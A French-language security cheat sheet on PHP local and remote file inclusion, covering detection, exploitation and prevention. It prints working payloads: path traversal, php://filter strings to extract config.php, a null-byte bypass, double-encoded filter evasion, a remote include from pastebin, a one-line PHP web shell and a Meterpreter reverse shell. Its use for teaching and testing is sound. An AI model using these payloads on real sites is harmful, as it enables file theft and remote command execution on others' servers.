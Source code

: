 # Failles web - include

## Description
La faille include est une faille de moins en moins présente, mais elle reste une classique. Elle permet l'injection de fichier en détournant l'ouverture d'un fichier attendu par le serveur. Cette faille permet d'accéder au code source du site, d'exécuter un de ses scripts, de le défigurer ou encore de faire exécuter un script externe.

Il existe de ux catégories de failles include:
* **Locale** (LFI) : exécution de fichiers présents sur le site
* **Distante** (RFI) : eéxcution de fichiers exterieurs contrôlés par l'attaquant

## Détection
S'il est possible d'analyser le code les fonctions suivantes sont vulnérables:
* PHP : `include`, `include_once`, `require`, `require_once`
* Node : `require`

Les options PHP sont également des indices lorsque l'on y a accès:
* `allow_url_open` : permet la récupération à des ressources distantes (RFI)
* `allow_url_include`: permet l'inclusion de ressources distantes (RFI)
* `open_basedir`: si non définie, la portée d'une faille LFI peut être plus importante sur le SI

Il est également possible de tester l'URL en injectant un path :

    http://domain.com/index.php?page=../../../../../
Si une erreur est détectée c'est que le site est probablement vulnérable à la faille include.

Les fonctions d'accès au système de fichiers peuvent être un problème avec l'utilisationd es filtres en PHP.

## Intention
Via l'exploitation d'une **LFI**, il est possible de:
* extraire des fichiers du serveur, et donc des sources ou des fichiers sensibles
* exécuter des scripts du serveur

Via l'exploitation d'une **RFI**, il est possible de :
* exécuter un script distant, permettant par exemple l'installation d'une backdoor
* défigurer le site

## Exploitation

### LFI
Le fichier inclu est interprété, on peut donc exécuté un script admin comme suit:

    ?inc=../admin
    ?inc=../admin&arg=value


### RFI
Par exemple, considérons un script PHP affichant le fichier `index.php`:

    <?php echo file_get_contents("index.php"); ?>
A défaut de le stocké sur son propre serveur, il est possible d'utiliser un site comme https://pastebin.com pour stocker ce code (`raw.php`). Ne reste plus qu'à passer le fichier par exemple avec comme point d'entrée la configuration du fichier de langue et le # (`%23`) à la fin de l'url pour utiliser le payload:

    http://domain.cim/index.php?lang=http://pastebin.com/raw.php?i=Qbsbgvpk%23


### Null Byte
Le null byte `%00` sert à marquer la fin d'une chaîne de caractère. Il peut être utilsié dans le cas d'une injection de fichier quand par exemple l'extention est ajouté par le code. Pour charger le fichier `admin.php`, la valeur de la variable dans l'URL est `admin` et le script sur le serveur concatène le `.php`.
Dans ce cas le serveur contraint au chargement de fichier PHP. Pour le contourner et par exemple récupérer un `config.ini` il suffit de rentrer `config.ini%00` ainsi lors de l'interpretation le nom s'arrêtera au null byte et le `.php` concaténé ne sera pas lu.

### Filtres et extraction de fichier
L'utilisation de filtres sur une LFI permet d'extraire des fichiers, en base 64 ou compréssés:

    ?inc=php://filter/read=convert.base64-encode/resource=config.php
    ?inc=php://filter/read=zlib.deflate/resource=config.php
    ?inc=php://filter/read=bzip2.compress/resource=config.php

A noter que `php://filter` est un wrapper PHP permettant d'appliquer un filtre sur un flux.

### Contourner le fitrage sur caractère
Le serveur peut se prémunir de cette attaque en bloquant les caractère `.` et `/`. Il faut donc les remplacer par l'encodage:

    : => %3A
    . => %2E
    / => %2F
    = => %3D
    - => %2D
Puis en remplacant `%` par son encodage `%25` on a :

    : => %253A
    . => %252E
    / => %252F
    = => %253D
    - => %252D
Ce qui permet de transformer :

    ?inc=php://filter/read=convert.base64-encode/resource=config.php
en double encoding :

    page=php%253A%252F%252Ffilter%252Fconvert%252ebase64%252dencode%252Fresource%253Dconfig%252Ephp

### Shell
Pour obtenir un shell sur un site vulnérable à la faille include, il suffit de lui passer en RFI un script PHP comprenant le code suivant:

    <?php system($_GET['cmd']); ?>

Pour créer un reverse shell, Meterpreter permet de constuire des scripts configurale avec `php/reverse_tcp`.

## Prévention
Pour se prémunir il faut:
* filtrer et valider les entrées utilisateurs
* Ne jamais exéccuter les entrées utilisateurs

Les fonctions `allow_url_open` et `allow_url_include` désactivées permettent de se protéger contre les RFI.

L'extension `Suhosin` pour PHP permet de bloquer l'utilisationd des wrappers. Les fonctions `file_exists`, `is_file`, et `filesize` renverront false dans le cas de l'utilisation d'un wrapper sur le nom de fichiers.

## Liens
https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/
https://openclassrooms.com/fr/courses/2091901-protegez-vous-efficacement-contre-les-failles-web/2680172-la-faille-include
https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion

